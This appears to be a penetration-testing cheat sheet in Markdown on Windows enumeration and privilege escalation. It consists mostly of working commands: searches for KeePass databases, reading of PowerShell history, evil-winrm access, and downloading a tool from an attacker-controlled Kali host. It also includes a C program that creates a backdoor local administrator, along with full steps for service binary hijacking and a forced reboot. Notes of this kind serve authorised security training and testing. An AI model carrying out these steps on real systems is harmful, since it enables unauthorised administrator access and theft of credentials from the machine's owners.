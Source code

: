 ## Privilege Escalation
- [Windows Enumeration Command](#Windows-Enumeration-Command)
- [Windows Privilege Escalation](#Windows-Privilege-Escalation)

# Windows Enumeration Command

``` powershell
# current user
whoami

# my groups
whoami /groups

# local user/groups list
Get-LocalUser
Get-LocalUserGroup
net user $username

# local group member
Get-LocalGroupMember $groupname

# system info
systeminfo
ipconfig /all
route print
netstat -ano

# installed application
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname 
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# process list
Get-Process

# search for file .kdbx (or other extensions)
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\SomeFolder -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\rocco\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# read content file
type C:\temp\file.txt
cat C:\temp\file.txt
Get-Content C:\temp\file.txt

# get history
Get-History
# get history from file
(Get-PSReadlineOption).HistorySavePath
    C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

- Escalation and access

``` powershell
# open a shell with different user (require password)
runas /user:$username cmd

# get a powershell session with other credential
$password = ConvertTo-SecureString "$password_stiled" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("$username", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred # this command open powershell session

# connect to windows system via winrm
evil-winrm -i $target -u $username -p "$password"

# download file on target host
$ python3 -m http.server 8000 # >>> on linux/kali machine
iwr -uri http://$kali:8000/file.exe -Outfile file.exe # >>> on windows machine
```

- Enumeration Tools:
 - WinPEASx64.exe
 - Seatbelt
 - JAWS

# Windows Privilege Escalatio

- Service Binary Hijacking

``` powershell
# get list of service and binary
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# get binary permission
icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F) # Users (group) have Full Permissions
```

Create a new binary to create new user on the system:
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Compile it for windows system and put on target system:
``` bash
# compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
# download on target
iwr -uri http://$kali:8000/adduser.exe -Outfile adduser.exe
# replace the original binary
move .\adduser.exe c:\path\to\mysqld.exe
```

If you don't have permission for stop the service:
``` bash
# Verify the StartMode, is AUTO?
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

# Vefify the SeShutdownPrivilege
whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled # must be present
...

# restart the system
shutdown /r /t 0

# At the starup we can access via RDP with the new user "dave2" as "local administrator" 
```

Tools:
 - PowerUp.ps1
